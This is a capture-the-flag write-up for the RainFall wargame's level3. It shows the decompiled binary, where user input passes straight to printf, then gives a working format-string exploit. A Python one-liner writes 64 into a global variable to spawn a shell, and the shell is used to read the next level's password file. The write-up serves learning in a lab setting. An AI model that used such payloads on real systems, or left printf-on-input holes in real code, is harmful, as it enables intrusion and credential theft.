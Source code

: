 ## Step 1: Static & Dynamic Analysis

```c
080484a4    uint32_t v()
080484a4    {
080484a4        void var_20c;
080484c7        fgets(&var_20c, 512, stdin);
080484d5        printf(&var_20c);
080484da        uint32_t m_1 = m;
080484da        
080484e2        if (m_1 != 64)
08048519            return m_1;
08048519        
08048507        fwrite("Wait what?!\n", 1, 12, stdout);
08048513        return system("/bin/sh");
080484a4    }

0804851a    int32_t main(int32_t argc, char** argv, char** envp)
0804851a    {
0804851a        return v();
0804851a    }
```

### Explanation

`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.
The variable `m` (located at `0x0804988c`) is checked. If it equals `64`, the program executes a shell using `system("/bin/sh")`.
If not, it simply returns the value of `m`.

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
...
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
(gdb)
```

The `printf()` call in `v()` allowing us to write `64` to the memory address of `m` (`0x0804988c`).
1. Begin the payload with the address of `m` (`0x0804988c`) in little-endian format: `\x8c\x98\x04\x08`.
2. Pad the payload with `60` characters to ensure exactly `64` characters are written before `%n`.
3. Use `%4$n` to specify that the 4th argument on the stack (our target address) should receive the value.


## Step 2: Exploiting the Binary

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + ("A" * 60) + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!

% cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

